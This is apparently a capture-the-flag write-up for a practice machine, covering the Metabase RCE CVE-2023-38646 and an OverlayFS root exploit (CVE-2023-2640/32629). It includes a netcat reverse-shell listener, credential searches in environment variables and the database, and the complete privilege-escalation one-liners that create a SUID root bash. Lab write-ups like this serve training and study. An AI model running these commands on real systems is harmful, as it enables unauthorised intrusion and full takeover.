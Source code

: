 ````markdown
# Analytics CTF Room Writeup

**Target:** analytical.htb  
**Goal:** Initial RCE via Metabase (CVE-2023-38646), user shell, then root via OverlayFS kernel exploit (CVE-2023-2640 & CVE-2023-32629)

---
````
## 1. Initial Recon & Enumeration

Started with a full TCP port scan:  
```bash
nmap -p- -sV -T4 analytical.htb


Found port **80** open, HTTP running.
Added domain to `/etc/hosts` for convenience:

```
10.10.x.x analytical.htb
```

Visited `http://analytical.htb` → Redirected to Metabase login page.

---

## 2. Subdomain Bruteforce & Discovering Data

Used subdomain enumeration tools (like `gobuster` or `ffuf`) to find:
`data.analytical.htb` → another Metabase login page.

---

## 3. Metabase Version & RCE CVE-2023-38646

Searched for Metabase exploits → found CVE-2023-38646, an RCE in Metabase’s API.

Checked API for version and token needed:

```bash
curl http://data.analytical.htb/api/session/properties
```

Got version info and confirmation this version is vulnerable.

---

## 4. Getting a Reverse Shell

Set up a Netcat listener on local machine:

```bash
nc -lvnp 4444
```

Used the CVE PoC/exploit with the token from above → got reverse shell as `metabase` user.

---

## 5. Post-Exploitation: Finding Credentials

On the shell, ran:

```bash
env
```

Saw some environment variables with username and password hints.

Next, ran:

```bash
strings metabase.db.mv.db | grep -Eo '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}'
```

Got emails, looked for those related to our user.

Used these emails and guessed passwords (or reused found creds) to log into the Metabase web interface.

---

## 6. SSH Access

Using found credentials, tried SSH:

```bash
ssh user@analytical.htb
```

Login successful.

Grabbed user flag.

---

## 7. Kernel and OS Info

Ran:

```bash
uname -a
lsb_release -a
```

Found kernel: `6.2.0-25-generic`
Ubuntu release: `22.04.03`

---

## 8. Root Privilege Escalation – OverlayFS Kernel Exploit

Looked for Ubuntu kernel exploits for this version → found CVE-2023-2640 & CVE-2023-32629.

The exploit abuses OverlayFS to gain root privileges by mounting OverlayFS with a crafted setup and copying python3 with elevated capabilities.

---

## 9. Running the Exploit

Run this command:

```bash
unshare -rm sh -c "
mkdir l u w m &&
cp /usr/bin/python3 l/ &&
setcap cap_setuid+eip l/python3 &&
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m &&
touch m/*;"
```

This starts a new shell with root privileges inside a user namespace, creates necessary folders, copies python3 and gives it special capabilities, mounts OverlayFS combining those folders, and triggers a copy preserving root capabilities.

Then run:

```bash
u/python3 -c 'import os; os.setuid(0); os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

This runs the python3 with root privileges, copies bash to `/var/tmp/bash`, sets it as SUID root executable, runs it to spawn a root shell, then cleans up.

---

## 10. Final Result

gained root access by running the SUID bash shell at `/var/tmp/bash`:

```bash
/var/tmp/bash -p
```

Now I can read the root flag and fully control the machine.

